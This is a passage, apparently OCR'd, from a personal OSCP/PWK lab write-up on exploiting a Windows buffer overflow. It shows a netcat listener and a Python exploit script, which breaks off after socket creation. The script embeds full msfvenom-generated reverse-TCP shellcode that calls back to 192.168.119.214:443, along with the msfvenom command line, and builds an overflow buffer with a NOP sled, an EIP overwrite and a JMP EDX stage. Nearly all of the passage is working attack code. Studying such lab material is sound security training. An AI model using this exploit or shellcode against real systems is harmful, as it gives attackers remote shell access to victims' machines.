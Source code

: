 ```plaintext
"\x6b\x17\x9e\xab\x22\xd0\xeb\xbf\xd3\x10\xa6\x9d\x72\x2e\x1c"
"\x89\x19\xbd\xfb\x49\x57\xde\x53\x1e\x30\x10\xaa\xca\xac\x0b"
"\x04\xe8\x2c\xcd\x6f\xa8\xea\x2e\x71\x31\x7e\x0a\x55\x21\x46"
"\x93\xd1\x15\x16\xc2\x8f\xc3\xd0\xbc\x61\xbd\x8a\x13\x28\x29"
"\x4a\x58\xeb\x2f\x53\xb5\x9d\xcf\xe2\x60\xd8\xf0\xcb\xe4\xec"
"\x89\x31\x95\x13\x40\xf2\xa5\x59\xc8\x53\x2e\x04\x99\xe1\x33"
"\xb7\x74\x25\x4a\x34\x7c\xd6\xa9\x24\xf5\xd3\xf6\xe2\xe6\xa9"
"\x67\x87\x08\x1d\x87\x82";
```

Start a netcat listener
```plaintext
kali@kali:~$ sudo nc -lnvp 443
[sudo] password for kali: 
listening on [any] 443 ...
```

Run the exploit (you can have a breakpoint on it, but you'll have to step through the code before you get a shell). In my case, I just launched the app and didn't open the debugger. Here is the code:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 6_add_shellcode_yes_nops.py 
#!/usr/bin/python
import socket

# msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.214 lport=443 -f c -e x86/shikata_ga_nai -b "\x00\xc5"
shellcode = ("\xba\x50\x3e\xd8\x88\xdb\xd8\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
"\x52\x83\xc3\x04\x31\x53\x0e\x03\x03\x30\x3a\x7d\x5f\xa4\x38"
"\x7e\x9f\x35\x5d\xf6\x7a\x04\x5d\x6c\x0f\x37\x6d\xe6\x5d\xb4"
"\x06\xaa\x75\x4f\x6a\x63\x7a\xf8\xc1\x55\xb5\xf9\x7a\xa5\xd4"
"\x79\x81\xfa\x36\x43\x4a\x0f\x37\x84\xb7\xe2\x65\x5d\xb3\x51"
"\x99\xea\x89\x69\x12\xa0\x1c\xea\xc7\x71\x1e\xdb\x56\x09\x79"
"\xfb\x59\xde\xf1\xb2\x41\x03\x3f\x0c\xfa\xf7\xcb\x8f\x2a\xc6"
"\x34\x23\x13\xe6\xc6\x3d\x54\xc1\x38\x48\xac\x31\xc4\x4b\x6b"
"\x4b\x12\xd9\x6f\xeb\xd1\x79\x4b\x0d\x35\x1f\x18\x01\xf2\x6b"
"\x46\x06\x05\xbf\xfd\x32\x8e\x3e\xd1\xb2\xd4\x64\xf5\x9f\x8f"
"\x05\xac\x45\x61\x39\xae\x25\xde\x9f\xa5\xc8\x0b\x92\xe4\x84"
"\xf8\x9f\x16\x55\x97\xa8\x65\x67\x38\x03\xe1\xcb\xb1\x8d\xf6"
"\x2c\xe8\x6a\x68\xd3\x13\x8b\xa1\x10\x47\xdb\xd9\xb1\xe8\xb0"
"\x19\x3d\x3d\x16\x49\x91\xee\xd7\x39\x51\x5f\xb0\x53\x5e\x80"
"\xa0\x5c\xb4\xa9\x4b\xa7\x5f\x16\x23\xd0\x49\xfe\x36\x1e\x77"
"\x44\xbf\xf8\x1d\xaa\x96\x53\x8a\x53\xb3\x2f\x2b\x9b\x69\x4a"
"\x6b\x17\x9e\xab\x22\xd0\xeb\xbf\xd3\x10\xa6\x9d\x72\x2e\x1c"
"\x89\x19\xbd\xfb\x49\x57\xde\x53\x1e\x30\x10\xaa\xca\xac\x0b"
"\x04\xe8\x2c\xcd\x6f\xa8\xea\x2e\x71\x31\x7e\x0a\x55\x21\x46"
"\x93\xd1\x15\x16\xc2\x8f\xc3\xd0\xbc\x61\xbd\x8a\x13\x28\x29"
"\x4a\x58\xeb\x2f\x53\xb5\x9d\xcf\xe2\x60\xd8\xf0\xcb\xe4\xec"
"\x89\x31\x95\x13\x40\xf2\xa5\x59\xc8\x53\x2e\x04\x99\xe1\x33"
"\xb7\x74\x25\x4a\x34\x7c\xd6\xa9\x24\xf5\xd3\xf6\xe2\xe6\xa9"
"\x67\x87\x08\x1d\x87\x82")

try:
  print "\nSending evil buffer..."
  nop_sled = "\x90" * 16
  filler = "B" * (2080 - len(nop_sled) - len(shellcode))
  eip = "\x1e\x11\x80\x14" # 0x1480111e
  first_stage = "\xff\xe2"  # JMP EDX -> ffe2
  nop_pad  = "\x90" * (2100 - len(nop_sled) - len(shellcode) - len(filler) - len(eip) - len(first_stage))
  inputBuffer = nop_sled + shellcode + filler + eip + first_stage + nop_pad

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
```